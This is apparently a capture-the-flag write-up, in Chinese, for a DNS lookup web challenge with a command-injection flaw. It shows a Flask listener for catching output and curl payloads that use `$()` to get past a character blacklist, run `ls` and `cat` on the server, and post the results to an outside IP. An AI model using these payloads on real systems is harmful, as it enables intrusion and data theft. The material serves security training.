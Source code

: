 # DNS Lookup Tool: Final
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f415e3ed-1266-43e2-88fb-a1e6681cee27)

## Webpage
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/41cfd043-3fe8-4141-81d3-f057901a04bc)

## 解題
正常

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a81ed269-8b81-4b17-9c49-06cd95765705)

不存在 domain

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/8c1547f0-025c-4875-aafd-3315a68e9d46)

使用違規字元

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/2dbd2b38-8128-4883-95cd-aa7f50ee911f)


讀 code 找到 blacklist

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/68686376-29a6-4bbc-bca0-3c63da797b1f)

發現 `$()` 沒檔，測一下

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

過了

## exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

## payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/481aad11-e682-4ccc-8333-a8f3f62d337e)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`
